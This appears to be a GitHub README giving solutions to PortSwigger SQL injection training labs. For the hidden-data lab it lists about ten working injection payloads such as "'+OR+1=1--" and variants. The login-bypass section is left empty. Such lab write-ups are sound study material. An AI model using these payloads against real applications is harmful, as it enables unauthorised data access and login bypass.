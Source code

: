 # SQL-injection
# Port Swigger SQL injection Lab Solutions <tag>

#Retrieving hidden data <tag>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. Solutions
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
#Subverting application logic<tag>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. Solutions

  

